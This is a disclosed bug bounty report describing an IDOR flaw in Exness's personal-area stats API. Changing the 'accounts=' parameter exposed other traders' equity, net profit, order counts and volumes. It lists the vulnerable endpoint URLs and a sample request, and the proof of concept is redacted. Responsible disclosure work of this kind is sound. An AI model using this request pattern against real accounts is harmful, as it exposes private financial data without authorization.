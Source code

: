 # IDOR in Stats API Endpoint Allows Viewing Equity or Net Profit of Any MT Account 

## Report Details
- **Report ID**: 1644436
- **URL**: https://hackerone.com/reports/1644436
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-21T06:09:49.368Z
- **Disclosed**: 2022-12-05T15:50:08.032Z

## Reporter
- **Username**: ashwarya
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: exness

## Vulnerability Information
Hi Team,

Today I logged into my Exness PA and noticed an updated performance [page](https://my.exness.com/pa/performance/summary). I thought to give it a quick check and noticed that the API endpoints responsible for fetching the stats performance chart (```*/stats/*```) is vulnerable to IDOR via `accounts=` parameter. The issue allows fetching the stats of any MT account and discloses the account equity / net profit  of the corresponding account.

#Vulnerable Endpoints
```
https://my.exness.com/v3/personal_area/stats/net_profit?time_range=365&accounts={accountNumber}
https://my.exness.com/v3/personal_area/stats/orders_number?time_range=365&accounts={accountNumber}
https://my.exness.com/v3/personal_area/stats/trading_volume?time_range=365&accounts={accountNumber}
https://my.exness.com/v3/personal_area/stats/equity?time_range=365&accounts={accountNumber}
```

#Steps to Reproduce
```
GET /v3/personal_area/stats/equity?time_range=365&accounts=xxx HTTP/2
Host: my.exness.com
Authorization: Bearer xyz
Content-Type: application/json
```


#Proof of Concept

███████

## Impact

IDOR allows stats of any MT trading account. The stats includes account net profit, closed order counts, trading volumes and daily equity figures.

## Attachments
No attachments
